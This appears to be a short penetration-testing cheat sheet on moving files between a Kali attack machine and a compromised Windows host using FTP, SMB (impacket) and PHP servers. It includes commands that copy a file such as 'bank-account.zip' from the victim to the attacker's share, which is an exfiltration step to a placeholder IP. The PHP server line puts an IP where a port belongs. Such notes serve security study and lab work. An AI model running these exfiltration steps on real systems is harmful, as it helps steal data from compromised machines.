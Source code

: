 ## FTP Server
Host ftp server on your kali machine: `python3 -m pyftpdlib -p 21 --write`

Now using ftp on the compromised windows machine connect to your ftp server using anonymous access: `ftp <IP>`

Remember to use `binary` mode when transferring files.

## SMB Server
`impacket-smbserver tadi .`

- use `-smb2support` if machine is running smb version 2

on the windows machine run `net use \\<KALI IP>\tadi`

you can copy from windows machine using: `copy C:\bank-account.zip Z:\bank-account.zip` or cd into `Z:\` then `copy C:<PATH> .`

`Z:\` would be the name of the share that you opened

## PHP Server
`php -S 0.0.0.0:<IP>`